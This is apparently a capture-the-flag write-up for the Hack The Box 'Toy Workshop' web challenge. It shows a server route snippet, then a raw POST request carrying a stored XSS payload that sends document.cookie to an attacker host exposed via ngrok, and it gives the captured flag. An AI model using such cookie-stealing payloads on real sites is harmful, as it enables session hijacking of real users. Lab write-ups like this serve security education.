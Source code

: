 # Web 

## Toy Workshop

![image](https://user-images.githubusercontent.com/56447720/144388010-0a52a976-2014-4052-888c-cce6d567d3cd.png)

#### Homepage

![image](https://user-images.githubusercontent.com/56447720/144388506-ffff4770-6e36-4561-ab45-2d248bae31ae.png)

- The homepage had nothing intresting

#### Source Code

- `/web_toy_workshop/challenge/routes/index.js`

```js
<--SNIPPED-->

router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});

<--SNIPPED-->                    

```
- So we have to send our query ( json data ) in `/api/submit` 
- It's a XXS

#### Solution

```js
POST /api/submit HTTP/1.1
Host: 46.101.20.5:31726
Content-Type:application/json
Content-Length: 130

{
  "query":"<img src=x onerror=this.src='<IP>/c?'+document.cookie;>"
}

```
- I used python3 http server with ngrok ( appended the link in <IP> )

#### Flag 
  
- After you sent the the POST request to the website, It will use the query and store it in it's database, and retrive the flag ( cookie ) for us

- Start the python3 server , use ngrok , update the query
  
![image](https://user-images.githubusercontent.com/56447720/144390423-6ef82ec3-5eaa-4383-b371-eb8c713049e5.png)

 
```bash
# flag : HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```
